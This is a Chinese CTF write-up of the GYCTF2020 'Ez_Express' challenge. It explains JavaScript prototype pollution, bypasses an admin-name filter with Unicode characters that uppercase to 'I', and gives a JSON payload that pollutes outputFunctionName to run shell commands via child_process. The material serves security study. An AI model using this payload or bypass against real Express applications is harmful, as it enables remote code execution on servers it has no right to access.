


# GYCTF2020-Ez_Express

原文链接：https://blog.csdn.net/qq_45691294/article/details/109320437

打开题目，看到一个登录注册表单，然后右边提示



先随便注册一个号，然后登录进去。发现是个空白页面，查看下网页源代码，提示我们下载www.zip得到源码


然后发现是js代码审计，只能看大佬的wp了。

关键源码在`app.js`和`index.js`中，开始代码审计

/route/index.js中用了`merge()`和`clone()`，所以这题是考原型链

---

## 原型链概念

在 Javascript，每一个实例对象都有一个`prototype`属性，`prototype` 属性

可以向对象添加属性和方法。

object.prototype.name=value

在 Javascript，每一个实例对象都有一个`__proto__`属性，这个实例属性 指向对象的原型对象(即原型)。可以通过以下方式访问得到某一实例对 象的原型对象：

`objectname["__proto__"]`

`objectname.__proto__`

`objectname.constructor.prototype`

污染原理

object[a][b] = value 如果可以控制a、b、value的值，将a设置为 proto，我们就可以给object对象的原型设置一个b属性，值为value。这样 所有继承object对象原型的实例对象在本身不拥有b属性的情况下，都会拥有b 属性，且值为value。

```
object1 = {"a":1,"b":2};
object1.__proto__.foo = "hhh";//直接修改原型，添加foo
console.log.(object1.foo);
object2 = {"c":1,"d":2};
console.log(object2.foo);//本身没找到，就去原型里找
```

具体参考p师傅的文章
[初探JavaScript原型链污染](https://www.cnblogs.com/escape-w/p/12347705.html)
以下代码存在原型链污染漏洞

```
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
const clone = (a) => {
  return merge({}, a);
}

```

往下在`/action`的路由中找到`clone()`的位置

```
router.post('/action', function (req, res) {
  if(req.session.user.user!="ADMIN"){res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")} 
  req.session.user.data = clone(req.body);
  res.end("<script>alert('success');history.go(-1);</script>");  
});
```

需要ADMIN账号才能用到`clone()`

于是去看`/login`路由的源码，主要看注册时对用户名的判断

```
if(safeKeyword(req.body.userid)){
    res.end("<script>alert('forbid word');history.go(-1);</script>") 
   }
```

传入的userid经过了`safeKeyword`函数，看下这个函数

```
function safeKeyword(keyword) {
  if(keyword.match(/(admin)/is)) {
      return keyword
  }
```

这里是通过正则来过滤掉admin(大小写)，不过有个地方可以注意到
`'user':req.body.userid.toUpperCase()`
这里用`toUpperCase`将user给转为大写了，这种转编码的通常都很容易出问题，于是测试一下

```
<!DOCTYPE html>
<html>
    <head>
    </head>
    <body>
        <script type="text/javascript">
            var arr  = new Array();
            for(var i = 0;i < 26;i++){
                arr[i] = new Array();
            }
            for(var i = 0;i < 65536;i++){
                j = String.fromCharCode(i).toUpperCase();
                if(j.length == 1){
                    c = j.charCodeAt(0);
                    if(c>64&&c<91){
                        l = arr[c-65].length;
                        arr[c-65][l] = i;
                    }
                }
            }
            for(var i = 0;i < 26;i++){
                document.write("<p>"+String.fromCharCode(i+65)+":</p>");
                document.write("<p>");
                for(j = 0;j < arr[i].length;j++){
                    document.write(arr[i][j]+",");
                }
                document.write("</p>");
            }
        </script>
    </body>
</html>

```

结果：

```
I:
73,105,305,
S:
83,115,383,
```

I和S都有3个值能够toUpperCase()后为自身，除了大小写外还有其它toUpperCase()后能为I和S。那正好利用I的第三个值去绕过正则检测并在toUpperCase()后为I
当然toUpperCase()有转码的问题toLowerCase()也有，可以改一下去测试（不过不要用edge测）
参考文章Fuzz中的javascript大小写特性

能登入为admin账号后，就该开始找要污染的参数

注册admın（此admın非彼admin，仔细看i部分）

```
    特殊字符绕过
    toUpperCase()

    其中混入了两个奇特的字符"ı"、"ſ"。

    ​ 这两个字符的“大写”是I和S。也就是说"ı".toUpperCase() == 'I'，"ſ".toUpperCase() == 'S'。通过这个小特性可以绕过一些限制。
    toLowerCase()

    这个"K"的“小写”字符是k，也就是"K".toLowerCase() == 'k'.
```

```
router.get('/info', function (req, res) {
  res.render('index',data={'user':res.outputFunctionName});
})

```

可以看到在/info下，使用将outputFunctionName渲染入index中，而outputFunctionName是未定义的

res.outputFunctionName=undefined;

也就是可以通过污染outputFunctionName进行SSTI

于是抓/action的包，Content-Type设为application/json
payload:

```
{"lua":"a","__proto__":{"outputFunctionName":"a=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag')//"},"Submit":""}
```

再访问/info就可以下载到flag文件

